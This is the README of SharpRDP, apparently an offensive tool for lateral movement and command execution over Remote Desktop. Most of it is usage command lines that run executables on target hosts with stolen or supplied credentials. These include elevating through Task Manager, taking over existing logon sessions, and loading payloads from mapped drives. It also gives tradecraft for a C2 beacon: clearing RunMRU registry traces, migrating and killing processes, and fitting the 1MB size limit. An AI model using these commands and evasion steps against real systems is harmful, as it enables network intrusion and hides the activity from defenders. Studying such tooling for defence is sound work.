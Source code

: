 

### SharpRDP - Remote Desktop Protocol Console Application for Authenticated Command Execution

#### Building
To compile open the project in Visual Studio and build for release. Two DLLs will be output to the Release directory, you do not need those because the DLLs are in the assembly.
If you do not want to use the provided DLLs you will need to .NET SDK to create the AxMSTSCLib.dll DLL. To create it you'll need to run aximp from the SDK on mstscax.dll. `%<SDK dir>%\aximp.exe %windir%\system32\mstscax.dll`. Those DLLs will need to be referenced by the project to get the Interop DLLs created.
You will also need to compress the DLLs with Deflate and name them AxInterop.MSTSCLib.dll.bin and Interop.MSTSCLib.dll.bin


#### Usage
```
Regular RDP connection and execution
  SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password
```

```
Exec program as child process of cmd or powershell
  SharpRDP.exe computername=target.domain command="C:\Temp\file.exe" username=domain\user password=password exec=cmd
```

```
Use restricted admin mode
  SharpRDP.exe computername=target.domain command="C:\Temp\file.exe"
```

```
Connect first host drives
  SharpRDP.exe computername=domain.target command="\\tsclient\C\Temp\file.exe" username=domain\user password=password connectdrive=true
```

```
Execute command elevated through Run Dialog - CURRENTLY BUGGED
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe" username=domain\user password=password elevated=winr
```

```
Execute command elevated through task manager
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password elevated=taskmgr
```

```
Add Network Level Authentication
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password nla=true
```

```
Ask to take over logon session
  SharpRDP.exe computername=domain.target command="C:\Temp\file.exe\" username=domain\user password=password takeover=true
```

If restricted admin mode is enabled on the target do not specify any credentials and it will use the current user context. Can `PTH` or `make_token` in beacon or `runas /netonly` on a Windows system.

All execution starts with the Windows run dialog (Win+R). There will be a registry key created at `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` with the command that you executed. If you want to remove this you can use: [CleanRunMRU: Get or clear RunMRU values](https://github.com/0xthirteen/CleanRunMRU)

Keep in mind if you execute a program like msbuild (I'm sure there are others) a cmd window will pop up while the process is running. If you do it would probably be best to migrate the process and kill the original. 

The required DLLs are compiled into the assembly and app domain assembly resolve event is used. Because of the size of the DLLs they are compressed and decompressed at runtime (so they could meet beacon's 1MB size limit).

Blog about it found here [SharpRDP](https://0xthirteen.com/2020/01/21/revisiting-remote-desktop-lateral-movement/)

Also part of [MoveKit](https://github.com/0xthirteen/MoveKit)
